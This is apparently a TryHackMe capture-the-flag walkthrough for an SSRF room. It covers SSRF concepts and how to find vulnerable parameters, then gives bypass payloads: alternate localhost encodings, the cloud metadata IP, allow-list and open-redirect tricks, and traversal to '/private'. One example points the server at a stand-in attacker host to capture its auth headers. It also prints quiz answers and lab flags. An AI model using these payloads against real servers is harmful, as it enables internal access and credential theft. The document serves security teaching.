# TryHackMe Walkthrough — SSRF (Server-Side Request Forgery)

**Lab:** [https://tryhackme.com/room/ssrfqi](https://tryhackme.com/room/ssrfqi)

In this room we explore **Server-Side Request Forgery (SSRF)** — a vulnerability where an attacker tricks a server into making HTTP requests on their behalf. Since the request originates from the **server itself**, it can access resources that the attacker normally cannot, such as **internal APIs, localhost services, or cloud metadata endpoints**.

This walkthrough covers the concepts demonstrated in the lab and then walks step-by-step through the **practical exploitation** to obtain the final flag. 🧩


---

# Task 1 — What is SSRF?

**SSRF (Server-Side Request Forgery)** occurs when a web application fetches resources from a location specified by user input without properly validating it.

Instead of requesting the intended resource, an attacker manipulates the input so the server requests something **internal or sensitive**.

Think of it like convincing the server to act as a **proxy** for your requests.

### Types of SSRF

There are two main types:

**Regular SSRF**

The response from the internal resource is returned directly to the attacker.

**Blind SSRF**

The server still makes the request, but **no response is shown** to the attacker. In this case, attackers rely on external monitoring tools to confirm the request occurred.

### Possible Impact

A successful SSRF attack can lead to:

* Access to internal network services
* Retrieval of sensitive organisational data
* Access to restricted endpoints
* Exposure of authentication tokens or API keys
* Pivoting deeper into internal infrastructure

### Answers

**What does SSRF stand for?**

Server-Side Request Forgery

**As opposed to regular SSRF, what is the other type?**

Blind



---

# Task 2 — SSRF Examples

This section demonstrates different ways SSRF vulnerabilities can appear in real applications.

Each example highlights a different level of attacker control.

---

## Example 1 — Full URL Control

In the first scenario, the application expects a request like:

```
https://website.thm/fetch?url=https://api.website.thm/data
```

The server retrieves the resource specified in the `url` parameter.

If an attacker controls this parameter, they can replace it with any destination they want:

```
http://localhost/admin
```

Because the request is made **from the server**, it may access internal services that external users cannot reach.



---

## Example 2 — Path Control Using Directory Traversal

Sometimes attackers cannot control the entire URL — only the **path portion**.

Example request:

```
/stock/check?path=/stock/item
```

If the application allows path manipulation, an attacker may inject directory traversal sequences.

Payload

```
../api/user
```

The `../` tells the system to move **one directory up**. As a result, the final request becomes:

```
/api/user
```

This technique bypasses restrictions and allows access to different endpoints.



---

## Example 3 — Subdomain Injection

In this case, the attacker controls a **subdomain portion** of the request.

A clever trick is used to prevent the server from appending additional paths.

Payload

```
attacker-domain.com&x=
```

The `&x=` converts the remaining portion of the request into a query parameter rather than a path. This ensures the attacker maintains control over the final URL.



---

## Example 4 — Capturing Server Requests

Instead of targeting internal resources, attackers can force the server to make requests to **their own controlled server**.

Payload

```
http://attacker-server.com
```

When the server connects to the attacker’s server, it may send **HTTP headers**, including:

* authentication tokens
* API keys
* cookies

These headers can reveal sensitive credentials.



---

## Example Challenge

The task is to modify the request so the server retrieves data from:

```
https://server.website.thm/flag?id=9
```

Once the request is properly crafted, the internal server returns the flag.

**Flag**

```
THM{SSRF_MASTER}
```



---

# Task 3 — Finding SSRF Vulnerabilities

SSRF vulnerabilities often appear when applications fetch resources dynamically based on user input.

Common places to check include:

### Full URL parameters

```
?url=http://example.com
```

### Hidden form inputs

Applications sometimes hide backend parameters in HTML forms.

### Hostname parameters

```
?server=internal-api
```

### Path parameters

```
?path=/api/data
```

These inputs often control **backend HTTP requests**, which makes them prime SSRF candidates.

---

### Identifying the Vulnerable URL

Given the options:

* [https://website.thm/index.php](https://website.thm/index.php)
* [https://website.thm/list-products.php?categoryId=5325](https://website.thm/list-products.php?categoryId=5325)
* [https://website.thm/fetch-file.php?fname=242533.pdf&srv=filestorage.cloud.thm&port=8001](https://website.thm/fetch-file.php?fname=242533.pdf&srv=filestorage.cloud.thm&port=8001)
* [https://website.thm/buy-item.php?itemId=213&price=100&q=2](https://website.thm/buy-item.php?itemId=213&price=100&q=2)

The third option is most suspicious because it allows control over:

* hostname
* port
* resource location

This suggests the application likely retrieves files from external storage.

**Answer**

3



---

# Task 4 — SSRF Protections & Bypass Techniques

Security-aware developers often implement validation rules to prevent SSRF.

These typically fall into two categories.

---

## Deny List

A deny list blocks specific domains or IP addresses such as:

* localhost
* 127.0.0.1

However attackers can bypass these restrictions using alternative representations.

Examples include:

```
127.1
```

```
0.0.0.0
```

```
2130706433
```

These values still resolve to **localhost**, bypassing naive filtering.

### Cloud Metadata Target

In cloud environments, attackers frequently target:

```
169.254.169.254
```

This endpoint contains **cloud instance metadata**, which may expose credentials or configuration data.

---

## Allow List

Allow lists only permit requests matching specific patterns.

Example rule:

```
URL must start with https://website.thm
```

An attacker can bypass this by crafting a malicious domain such as:

```
https://website.thm.attacker-domain.com
```

Since the string still begins with `website.thm`, the validation passes.

---

## Open Redirect Bypass

Another useful trick is abusing **open redirect endpoints**.

Example endpoint:

```
https://website.thm/link?url=https://tryhackme.com
```

Attackers can change the redirect target:

```
https://website.thm/link?url=https://attacker.com
```

The server first validates the URL, then redirects internally to the attacker-controlled destination.

---

### Answers

**Method used to bypass strict rules**

Open Redirect

**Sensitive cloud metadata IP**

169.254.169.254

**List permitting only specific input**

Allow List

**List blocking certain input**

Deny List



---

# Task 5 — SSRF Practical Exploitation

Now we move to the practical exploitation scenario involving the **Acme IT Support website**.

During reconnaissance we discover two interesting endpoints:

* `/private`
* `/customers/new-account-page`

The `/private` endpoint appears restricted, showing an **IP-based access error**.

This suggests that if we can make the **server itself** request this endpoint, we may bypass the restriction.

---

## Step 1 — Create an Account

First we create a customer account and log in to the application.

After logging in, we visit:

```
/customers/new-account-page
```

This page introduces a new feature allowing users to choose an avatar.



---

## Step 2 — Inspect the Avatar Mechanism

Viewing the page source reveals that the avatar image path is stored in the form.

Additionally, the avatar image displayed on the page uses a **Data URI with Base64 encoding**.

This strongly indicates the server **fetches the image internally and converts it to base64** before embedding it in the page.



---

## Step 3 — Modify the Avatar Path

Using browser developer tools, we inspect one of the avatar radio buttons and modify its value.

Payload

```
private
```

The idea is to trick the server into retrieving the restricted `/private` endpoint instead of an image.

However, the application blocks this request because a **deny list prevents paths starting with `/private`**.

---

## Step 4 — Bypass the Deny List

To bypass the filter, we use a **directory traversal trick**.

Payload

```
x/../private
```

Explanation:

* `x/` adds a harmless directory prefix
* `../` moves one directory up
* the final resolved path becomes `/private`

Since the filter only checks whether the path **starts with `/private`**, this payload bypasses the rule.

The server now successfully fetches the restricted resource.



---

## Step 5 — Retrieve the Flag

Viewing the page source again shows that the avatar content now contains **base64 encoded data from the `/private` directory**.

We simply decode the base64 string to reveal the flag.

Example decoding command:

```
echo BASE64_DATA | base64 -d
```

After decoding, the flag appears.

